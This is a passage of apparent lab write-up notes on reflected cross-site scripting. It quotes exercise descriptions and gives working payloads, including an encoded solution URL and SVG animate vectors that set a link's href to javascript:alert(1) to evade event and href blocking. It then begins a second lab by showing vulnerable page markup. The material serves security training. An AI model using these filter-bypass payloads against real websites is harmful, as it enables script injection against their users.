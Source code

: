 
##### Reflected XSS with event handlers and href attributes blocked

> This lab contains a reflected XSS vulnerability with some whitelisted tags, but all events and anchor href attributes are blocked..
>
> To solve the lab, perform a cross-site scripting attack that injects a vector that, when clicked, calls the alert function.
>
> Note that you need to label your vector with the word "Click" in order to induce the simulated lab user to click your vector. For example: `<a href="">Click me</a>`
>

<div class="component-solution is-expandable">
            <h4>Solution<svg xmlns="http://www.w3.org/2000/svg" width="18" height="9" viewBox="0 0 18 9"><polygon points="17 -0.01 9 7.01 1 -0.01 0 1.09 9 8.99 18 1.09 17 -0.01"></polygon></svg></h4>
            <div>
                <p>
                    Visit the following URL, replacing <code>your-lab-id</code> with your lab ID:
                </p>
                    <code class="code-scrollable">https://your-lab-id.web-security-academy.net/?search=%3Csvg%3E%3Ca%3E%3Canimate+attributeName%3Dhref+values%3Djavascript%3Aalert(1)+%2F%3E%3Ctext+x%3D20+y%3D20%3EClick%20me%3C%2Ftext%3E%3C%2Fa%3E</code>
            </div>
        </div>

Other way

```html
<svg><a><animate attributeName=href values=javascript:alert(1) /><text x=20 y=20>Click me</text></a>

<!-- from xss-cheat-->
<svg><animate xlink:href=#xss attributeName=href values=javascript:alert(1) /><a id=xss><text x=20 y=20>XSS</text></a>
```

#### **XSS into JavaScript** 

##### Reflected XSS into a JavaScript string with angle brackets HTML encoded

> This lab contains a reflected cross-site scripting vulnerability in the search query tracking functionality where angle  brackets are encoded. The reflection occurs inside a JavaScript string.  To solve this lab, perform a cross-site scripting attack that breaks out of the JavaScript string and calls the `alert` function.  

Vulnerable code

```html
<div class="container is-page">
                    <header class="navigation-header">
                        <section class="top-links">
                            <a href="/">Home</a><p>|</p>
                        </section>
                    </header>
                    <header class="notification-header">
                    </header>
                    <section class="blog-header">
                        <h1>0 search results for '8808'</h1>
                        <hr>
                    </section>
                    <section class="search">
                        <form action="/" method="GET">
                            <input type="text" placeholder="Search the blog..." name="search">
                            <button type="submit" class="button">Search</button>
                        </form>
```